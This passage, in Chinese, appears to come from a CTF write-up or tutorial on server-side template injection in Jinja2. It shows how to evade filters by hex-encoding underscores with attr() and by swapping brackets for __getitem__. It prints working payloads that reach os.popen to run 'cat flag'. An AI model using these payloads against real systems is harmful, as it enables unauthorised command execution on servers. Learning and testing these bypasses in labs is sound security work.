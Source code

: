 [![在这里插入图片描述](assets/1698900310-d7e2a69b1e517d03601ee764f4b9c028.png)](https://storage.tttang.com/media/attachment/2022/08/14/5246ab01-86d1-4850-8253-709fb100f975.png)  
也可以用十六进制结合过滤器 attr() 来进行绕过，举个例子

```bash
"".__class__=""|attr(__class__)=""|attr("\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f")
```

那么这里的话我们就可以把下划线进行十六进制编码绕过  
原 payload

```bash
().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()
```

中括号这里用 getitem 转换为括号

```bash
().__class__.__base__.__subclasses__().__getitem__(133).__init__.__globals__.__getitem__('popen')('cat flag').read()
```
